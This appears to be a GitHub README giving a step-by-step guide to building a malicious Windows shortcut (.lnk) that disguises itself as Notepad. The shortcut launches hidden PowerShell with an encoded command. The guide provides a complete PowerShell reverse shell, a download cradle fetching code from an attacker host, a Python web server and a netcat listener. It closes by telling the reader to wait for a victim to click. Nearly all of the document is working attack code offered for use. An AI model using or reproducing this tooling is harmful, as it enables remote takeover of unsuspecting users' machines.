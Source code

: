 # This is Most underrated attack, if there are so many shortcut links are created . You can Manupulate the .lnk by putting the Raw encoded Code.
Follow this Step to Make a Malicious Link by Putting the Raw code..

# Step By Step 
```language
1. Edit the .lnk link
2. Create file and start a python server
3. start a listner
4. save a the lnk file
```
# 1. step
```language
$WScriptShell = New-Object -ComObject WScript.Shell
$Shortcut = $WScriptShell.CreateShortcut("C:\Common Applications\Notepad.lnk")
$Shortcut.TargetPath = "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"
$Shortcut.Arguments = "-Nop -sta -noni -w hidden -encodedCommand <encoded_code_here>
```
# 2. Create a touch.ps1 file  and start a listener
Edit your ip in this .....
```language
$c=New-Object System.Net.Sockets.TCPClient("127.0.0.1",9001);$s=$c.GetStream();[byte[]]$b=0..65535|%{0};while(($i=$s.Read($b,0,$b.Length))-ne 0){;$d=(New-Object System.Text.ASCIIEncoding).GetString($b,0,$i);$sb=(iex $d 2>&1|Out-String);$sb2=$sb+"PS "+"> ";$sby=([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sby,0,$sby.Length);$s.Flush()};$c.Close()
```
```language
nano cradle
cradle content:- IEX(New-Object Net.WebClient).downloadString("http://attacker_ip:8000")
```
```language
python3 -m http.server 8000
```
# 3. start a listner
```language
rlwrap -cAr nc -lnvp 9001
```
# 4. Save the link and wait for the click on the link
```lanuage
$Shortcut.Save()
```
